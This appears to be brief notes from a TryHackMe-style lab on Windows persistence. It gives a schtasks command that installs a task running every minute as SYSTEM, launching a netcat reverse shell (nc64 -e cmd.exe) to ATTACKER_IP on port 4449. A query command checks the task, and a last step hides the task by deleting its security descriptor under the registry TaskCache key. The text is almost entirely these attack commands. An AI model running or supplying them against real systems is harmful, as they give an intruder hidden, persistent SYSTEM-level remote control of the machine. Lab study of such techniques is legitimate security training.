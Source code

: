Create task to run every minute with a netcat reverse shell

	schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM

Check if task is set

	schtasks /query /tn thm-taskbackdoor

Make the task invisible by deleting t's System Descriptior (SD) from:

	HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\THM-TaskBackdoor